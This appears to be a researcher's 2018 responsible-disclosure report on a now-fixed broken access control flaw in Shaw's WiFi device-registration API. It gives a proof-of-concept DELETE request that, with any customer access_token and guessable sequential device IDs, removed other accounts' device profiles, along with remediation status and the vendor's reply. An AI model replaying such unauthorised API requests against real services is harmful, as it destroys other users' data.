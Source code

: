 ```yaml
---
layout: reports
permalink: /reports/7/
tagline: "On 10 August 2018 I discovered an Arbitrary File Deletion vulnerability on shaw.com"
image:
  feature: 
  hero: 
report-id: GWA-2018-007
---
```


## Summary

By sending a `DELETE` request to a specific API location it is possible to arbitrarily delete Shaw Go Wifi device profiles from any account.

This attack requires some authentication. For the request to be successful an `access_token` needs to be generated either from an IP associated with any Shaw customer or by remotely logging into a @shaw.ca email. The `access_token` can be used to delete device profiles even if they are associated with another account.

## Proof of Concept

We can generate `access_token` by visiting `https://wifi-registration.shaw.ca/drp/` and inspecting the response from `/api/token`.

After generating an `access_token` we can send a `delete` request, replacing `c15c0d06f00d` with the device ID. The device ID is usually either the device MAC Address or `120100██████` with `██████` being a sequentially generated hexadecimal value.

Request:
```http
DELETE /api/customer/devices/c15c0d06f00d HTTP/1.1
Host: wifi-registration.shaw.ca
Connection: close
Authorization: Bearer [access_token_redacted]
Content-Length: 26

Cookie:

[object Object]
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Aug 2018 13:37:00 GMT
Content-Type: application/json
Content-Length: 50
Connection: close
Set-Cookie: txGUID=████████-████-████-████-████████████; path=/; domain=shaw.ca
Set-Cookie: WiFiCaptivePortalDetails=[REDACTED]; path=/; expires=Fri, 10 Aug 2018 13:37:00 GMT; domain=shaw.ca
Cache-Control: no-store, must-revalidate, no-cache, max-age=0
Cache-Control: no-cache
Set-Cookie: captive_env=prod

{"response_time":"0.123s","v":"2.9.11-6.899e73c0"}
```

_Some details in this response have been altered or redacted to ensure the privacy of the account owner._


## Recommended Actions

 - Implement proper access controls.

## Remediation Status

At the time of publishing this report using `access_token` generated by visiting `https://wifi-registration.shaw.ca/drp/` now result in the response `412 Precondition Failed` and `{"code":242,"message":"Invalid Device - Missing from Account: 03161234567"}`

Furthermore successful requests now show `{"response_time":"0.123s","v":"2.9.12-1.4c02e4ac"}` indicating the software version has been updated since.

## Response From Vendor


### Response From mbxcustomerprotectio@sjrb.ca 23 Sept 2018

> We would like to thank @glitchwitch for bringing this issue to our attention. As a result of this exercise, Shaw’s WiFi device management was able to make security advancements, and we consider this matter resolved.
>
>
>
>Regards.
>
>
>
>Shaw Customer Protection Team
>
>E: Customer.Protection@sjrb.ca
>
>This message is confidential and may contain privileged information. We ask that you not use or disclose this message other than with our consent.
>
>If you are not an intended recipient, please immediately notify us and delete this message. Thank-you.
